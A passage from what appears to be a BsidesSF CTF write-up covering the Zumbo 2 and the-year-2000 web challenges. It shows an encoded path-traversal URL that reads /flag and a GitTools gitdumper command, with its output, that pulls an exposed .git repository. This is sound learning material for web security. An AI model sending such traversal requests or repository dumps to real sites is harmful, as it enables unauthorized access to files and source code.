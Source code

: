 Flag was `FLAG: FIRST_FLAG_WASNT_HARD`.

**PS**: Only `page` is used so `http://zumbo-8ac445b1.ctf.bsidessf.net/server.py` also works...

# 100 - Zumbo 2 - Web

> Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
>
> Three flags await. Can you find them?
>
> http://zumbo-8ac445b1.ctf.bsidessf.net
>
> Stage 3 - coming soon!

For the next part of the challenge, we already got the `server.py` source so I looked again at the flag2 part:

```python
    with open('/flag') as f:
            flag2 = f.read()
```

Ok the flag is in `/flag` so just change `http://zumbo-8ac445b1.ctf.bsidessf.net/..%2f..%2f..%2f..%2fcode/server.py` into `http://zumbo-8ac445b1.ctf.bsidessf.net/..%2f..%2f..%2f..%2fflag`.

And get the flag: `FLAG: RUNNER_ON_SECOND_BASE`.

# 100 - the-year-2000 - Web
> Wait, what year is it?
>
> http://theyear2000.ctf.bsidessf.net/

The author says on this home page:

> I made this website all by myself using these tools
>
>+ html
>+ notepad++
>+ git
>+ apache

I tried `http://theyear2000.ctf.bsidessf.net/.git/` and it returned me *Forbidden* error. So there is a `.git` repot here.

As usual I used [GitTools](https://github.com/internetwache/GitTools) to dump the repository:

```
$ ./gitdumper.sh http://theyear2000.ctf.bsidessf.net/.git/ repo
Destination folder does not exist
Creating repo/.git/
Downloaded: HEAD
Downloaded: objects/info/packs
Downloaded: description
Downloaded: config
Downloaded: COMMIT_EDITMSG
Downloaded: index
Downloaded: packed-refs
Downloaded: refs/heads/master
Downloaded: refs/remotes/origin/HEAD
Downloaded: refs/stash
Downloaded: logs/HEAD
Downloaded: logs/refs/heads/master
Downloaded: logs/refs/remotes/origin/HEAD
Downloaded: info/refs
Downloaded: info/exclude
Downloaded: objects/4e/ec6b9c6e464c35fff1efb8444dd0ac1ae67b30
Downloaded: objects/00/00000000000000000000000000000000000000
```